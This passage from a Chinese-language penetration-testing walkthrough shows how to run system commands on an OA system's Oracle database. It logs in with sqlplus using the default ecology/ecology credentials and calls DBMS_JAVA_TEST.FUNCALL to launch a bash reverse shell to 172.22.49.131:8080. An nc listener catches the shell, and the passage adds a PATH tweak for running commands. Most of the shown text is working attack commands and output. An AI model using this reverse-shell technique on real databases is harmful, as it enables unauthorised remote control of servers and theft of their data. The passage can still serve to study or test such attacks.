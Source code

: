 ```
    dbms_scheduler_execute('touch /tmp/222.txt',connection)
    connection.close()
```

使用图形化工具

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWdkMHMUJN0yC6I3DeARFibI7CK7KgFz5iamsz4j7d1oSzKv1dich6z9t40gkSbic38icnh5Xogz7MdTIg/640?wx_fmt=png)

**直连数据库情况下**

**安装 sqlplus**

官方下载地址: 

https://www.oracle.com/database/technologies/instant-client/winx64-64-downloads.html

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWdkMHMUJN0yC6I3DeARFibIMGRl5ucEM46PCwFXXCgMO6VD0Cta0eSzE15JGS87zny6bIe3TJ8nOw/640?wx_fmt=png)

**命令行**

```
root@kali:~# apt install oracle-instantclient12.1-sqlplus -y
```

使用 sqlplus 连接目标 OA 系统的 oracle 数据库，写入 bash 反弹命令。

```
root@kali:~# sqlplus ecology/ecology@192.168.31.75:1521/orcl
SQL> select DBMS_JAVA_TEST.FUNCALL('oracle/aurora/util/Wrapper','main','/bin/bash','-c','exec 9<> /dev/tcp/172.22.49.131/8080;exec 0<&9;exec 1>&9 2>&1;/bin/sh') from dual;
Enter value for 9: &9
Enter value for 9: &9
Enter value for 1: &1
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWdkMHMUJN0yC6I3DeARFibIrqKrfvyXZqCddQicmpm9d0toJibvnjU13APSGWcygbRDjjy8vUbQZ4mg/640?wx_fmt=png)

nc 监听后，成功收到 shell。

**起初是不能执行系统命令的，需要添加环境变量才可以执行命令，这里需要特殊注意下。**

```
root@kali:~# nc -lvvp 8080
listening on [any] 8080 ...
192.168.31.75: inverse host lookup failed: Unknown host
connect to [172.22.49.131] from (UNKNOWN) [192.168.31.75] 19050

ifconfig
/bin/sh: line 4: ifconfig: No such file or directory 

echo 1
export PATH="/usr/local/bin:/usr/local/sbin:/usr/bin:/bin:/usr/sbin:/sbin" //添加环境变量
ifconfig
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWdkMHMUJN0yC6I3DeARFibIic51qbq41wZZDdEGoj0GU1icibAVLsGLiblDoyCbxCd5kEMhZjial4FFLPA/640?wx_fmt=png)
